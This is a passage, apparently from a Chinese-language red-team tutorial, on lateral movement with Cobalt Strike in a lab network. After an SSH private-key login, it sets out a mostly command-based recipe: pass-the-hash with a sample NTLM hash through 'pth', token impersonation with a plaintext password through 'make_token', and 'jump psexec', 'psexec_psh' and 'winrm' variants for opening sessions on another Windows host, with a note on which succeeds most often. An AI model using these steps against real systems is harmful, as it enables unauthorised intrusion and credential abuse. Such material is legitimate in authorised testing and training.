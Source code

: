 然后我们本地机器放私钥，远程连接

```
ssh-key 192.168.10.13:22 root e:\id_rsa
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t012eb09f21483b324d.gif)[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01b547778a8e5f1f33.png)

 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01851513bfb37e4b71.png)[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t012eb09f21483b324d.gif)

**对于Windows机器，如果我们获取到账号和密码(明文或者哈希)，都可以进行远程连接**

远程连接的前提是目标机器开放了445端口，然后CS会通过远程连接开启一个CS的seesion。可以用以下方式远程连接：psexec 、psexec64、psexec_psh 、winrm 和 winrm64。实测使用 psexec_psh 成功率最高。

已经得到机器Win2008的密码为：root （329153f560eb329c0e1deea55e88a1e9），现在想哈希传递Win2003机器。监听器为：test

```
如果知道知道密码哈希的话：
​
rev2self
pth WIN2008\Administrator 329153f560eb329c0e1deea55e88a1e9
​
psexec的命令：jump psexec WIN2003 test
psexec64的命令jump psexec64 WIN2003 test
psexec_psh的命令：jump psexec_psh WIN2003 test
winrm的命令：jump winrm WIN2003 test
winrm64的命令： jump winrm64 WIN2003 test
​
如果是知道明文密码的话：
​
rev2self
make_token WIN2008\Administrator root
​
psexec的命令：jump psexec WIN2003 test
psexec64的命令jump psexec64 WIN2003 test
psexec_psh的命令：jump psexec_psh WIN2003 test
winrm的命令：jump winrm WIN2003 test
winrm64的命令： jump winrm64 WIN2003 test
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t012eb09f21483b324d.gif)[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01e487d7923784e664.png)

 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01dc2d5ea49b554b68.png)
